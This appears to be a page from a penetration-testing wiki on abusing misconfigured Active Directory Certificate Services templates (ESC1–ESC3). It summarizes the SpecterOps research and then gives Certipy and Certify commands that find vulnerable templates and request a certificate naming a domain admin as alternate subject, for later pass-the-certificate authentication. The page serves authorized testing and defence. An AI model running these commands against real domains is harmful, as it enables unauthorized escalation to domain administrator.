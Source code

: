 # Certificate templates

## Theory

> AD CS Enterprise CAs issue certificates with settings defined by AD objects known as certificate templates. These templates are collections of enrollment policies and predefined certificate settings and contain things like “_How long is this certificate valid for?_”, _“What is the certificate used for?”,_ “_How is the subject specified?_”, _“Who is allowed to request a certificate?”_, and a myriad of other settings
>
> \[...]
>
> There is a specific set of settings for certificate templates that makes them extremely vulnerable. As in regular-domain-user-to-domain-admin vulnerable.
>
> ([specterops.io](https://posts.specterops.io/certified-pre-owned-d95910965cd2))

In [their research papers](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin\_) found multiple vectors of domain escalation based on certificate template misconfigurations (dubbed [ESC1](https://posts.specterops.io/certified-pre-owned-d95910965cd2#180f), [ESC2](https://posts.specterops.io/certified-pre-owned-d95910965cd2#dfa4) and [ESC3](https://posts.specterops.io/certified-pre-owned-d95910965cd2#c08e)).

![Vulnerable configurations for ESC1, ESC2 and ESC3](../../../.gitbook/assets/ad-cs\_cert\_templates\_vuln\_confs.png)

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC1 and ESC2 scenarios. At the time of writing (October 20th, 2021), ESC3 doesn't seem to be fully supported.

```python
certipy 'domain.local'/'user':'password'@'domaincontroller' find -vulnerable
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}

{% hint style="info" %}
Certipy's auto mode can also be used to automatically find and abuse misconfigured certificate temp
{% endhint %}

Once a vulnerable template is found, a request shall be made to obtain a certificate.

```bash
certipy 'domain.local'/'user':'password'@'ca_server' req -ca 'ca_name' -template 'vulnerable template' -alt 'domain admin'
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```batch
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /vulnerable /currentuser
```

Once a vulnerable template is found, a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```batch
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template" /altname:"admin"
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}
